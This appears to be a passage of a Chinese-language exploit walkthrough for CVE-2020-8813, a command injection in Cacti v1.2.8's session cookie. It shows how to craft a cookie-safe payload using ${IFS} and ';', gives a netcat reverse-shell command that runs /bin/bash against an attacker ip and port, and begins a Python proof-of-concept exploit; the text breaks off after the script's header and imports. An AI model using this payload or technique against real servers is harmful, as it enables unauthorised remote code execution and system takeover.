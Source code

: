 
如我们所见，我们将会话打印输出给我们，因此让我们尝试将自定义字符串注入会话中，看看会发生什么：

![](images/15889443670634.png)


**payload编写**

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写“会话友好” ”，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个Cookie值。

例如，如果我对字符串“ Hi Payload”进行编码并将其传递给应用程序，我将得到以下信息：

![](images/15889443796195.png)


![](images/15889443856849.png)


如我们所见，该应用程序为我们设置了一个cookie而不是我们注入的cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用“ $ {IFS}” bash变量来表示空格的想法。

当然，我们需要使用“;”转义命令 如下所示：


```
;payload
```

如果要使用netcat获得外壳，则需要创建以下有效负载：


```
;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port
```

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![](images/15889444114086.png)


然后将其发送到应用程序以获取以下信息：

![](images/15889444183166.png)


**完整版的poc**

为了自动化利用过程，我编写了一个python代码来利用此漏洞，利用此漏洞将处理登录过程以启用“来宾实时图”特权，然后将生成有效负载并将精心制作的请求发送到“ graph_realtime.php”页面为了获得反向壳。

这是完整的利用代码：


```python
#!/usr/bin/python3
 
# Exploit Title: Cacti v1.2.8 Remote Code Execution
# Date: 03/02/2020
# Exploit Author: Askar (@mohammadaskar2)
# CVE: CVE-2020-8813
# Vendor Homepage: https://cacti.net/
# Version: v1.2.8
# Tested on: CentOS 7.3 / PHP 7.1.33
 
import requests
import sys
import warnings
from bs4 import BeautifulSoup
from urllib.parse import quote
 
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
 
```